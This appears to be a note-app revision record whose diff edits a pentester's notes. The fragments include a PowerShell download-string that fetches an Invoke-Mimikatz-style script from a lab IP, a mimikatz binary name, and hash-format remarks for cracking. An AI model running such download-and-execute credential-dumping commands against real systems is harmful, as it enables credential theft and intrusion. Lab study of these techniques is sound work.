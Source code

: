 id: 3374765838c84f29b6815e746453aa3d
parent_id: d7804f2dc0ec446599c931e0e95ca076
item_type: 1
item_id: 47d7422e06d948c0ba7ec81fc6caab6d
item_updated_time: 1651135291631
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\" version\"],[1,\" 'mimikatzold64.exe'\"],[0,\"\\\n\\\n# Remo\"]],\"start1\":421,\"start2\":421,\"length1\":16,\"length2\":36},{\"diffs\":[[0,\"String('\"],[-1,\"[\"],[0,\"http://1\"],[-1,\"0.10.14.9:8000\"],[1,\"92.168.119.206\"],[0,\"/Invoke-\"]],\"start1\":573,\"start2\":573,\"length1\":39,\"length2\":38},{\"diffs\":[[0,\".ps1\"],[-1,\"](http://10.10.14.9:8000/ipw.ps1)\"],[0,\"') ;\"]],\"start1\":621,\"start2\":621,\"length1\":41,\"length2\":8},{\"diffs\":[[0,\"mat Hash\"],[-1,\"C\"],[1,\"c\"],[0,\"at  | Se\"]],\"start1\":658,\"start2\":658,\"length1\":17,\"length2\":17}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-28T08:41:47.265Z
created_time: 2022-04-28T08:41:47.265Z
type_: 13